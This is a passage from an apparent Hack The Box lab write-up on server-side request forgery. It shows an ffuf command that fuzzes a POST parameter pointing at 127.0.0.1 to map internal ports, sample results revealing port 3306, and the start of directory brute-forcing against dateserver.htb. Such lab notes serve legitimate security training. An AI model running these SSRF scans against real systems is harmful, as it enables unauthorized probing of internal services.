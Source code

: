 So here is how to check for all the common ports ->

```shell-session
ElFelixi0@htb[/htb]$ seq 1 10000 > ports.txt
ElFelixi0@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

We need to grep out a part of the error message and we sould we a response like this:

```shell-session
Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

So appart from the port 80 that we know we can see port 3306 that is often related to SQL databases

## Exploiting SSRF

So we know that the request fetches availability information from the URL `dateserver.htb` so we can start by adding this IP to our host file but we still can't access it:

<figure><img src="../../../.gitbook/assets/image (1330).png" alt=""><figcaption></figcaption></figure>

So we can now start and look at potential endpoints that we could access with fuff using a random directory bruteforce wordlist![](<../../../.gitbook/assets/image (1332).png>):

<figure><img src="../../../.gitbook/assets/image (1331).png" alt=""><figcaption><p>404 apache response </p></figcaption></figure>
